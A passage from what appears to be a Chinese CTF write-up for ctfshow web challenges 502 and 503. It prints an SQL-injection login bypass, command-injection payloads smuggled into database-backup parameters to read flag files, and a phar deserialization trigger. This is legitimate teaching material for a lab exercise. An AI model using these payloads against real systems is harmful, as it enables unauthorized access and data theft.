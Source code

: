 加上就行，不影响

```
db_format=zip;cat /f* > /var/www/html/a.txt
```

## 502-rce

登录

```
/index.php?action=check

post：（两个都行）
username=' || 1%23&password=1
```

对`$db_format`的正则更严了，但发现`$pre`没有任何waf，用它来整就行

```php
# /index.php?action=../api/admin_db_backup

if(preg_match('/^(zip|tar|sql)$/', $db_format)){
		shell_exec('mysqldump -u root -h 127.0.0.1 -proot --databases ctfshow > '.$pre.$db_format);
```

payload：

```
db_format=zip&pre=1;cat /f* > /var/www/html/a.txt;
```



## 503-phar反序列化

登录

```
/index.php?action=check

post：（两个都行）
username=' || 1%23&password=1
```

`平台设置-》系统配置`可以上传图片，想到之前有个反序列化

然后在`/api/admin_db_backup.php`存在`file_exists()`可以触发phar反序列化

```php
# /index.php?action=../api/admin_db_backup

if($user){
	extract($_POST);
	if(file_exists($pre.$db_format)){
			$ret['msg']='数据库备份成功';
			die(json_encode($ret));
	}
	# ...
}
```

